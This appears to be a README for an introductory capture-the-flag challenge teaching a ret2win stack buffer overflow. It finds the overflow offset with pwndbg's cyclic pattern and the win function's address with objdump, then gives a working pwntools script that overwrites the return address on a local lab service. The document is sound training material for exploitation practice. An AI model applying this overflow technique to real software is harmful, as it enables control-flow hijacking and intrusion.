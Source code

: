 # Challenge Name
baby_R2W

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, you can see that `win` function is never called. We want to call this function.

To perform ret2win, we need to overwrite the return address from `main` to `win` after `vuln` function finishes running.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `win` address

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the win address:
```shell
$> objdump -d baby_R2W_bin | grep win
0000000000400797 <win>:
```

Now we can put our solve script together!

#### Final Solution
```py
from pwn import *

p = remote("127.0.0.1", 8881)

# address of win function
win = p64(0x400797)

# payload 
payload = b'A' * 40
payload += win

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Attached Files
- chall.c
- chall

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Flag
TBD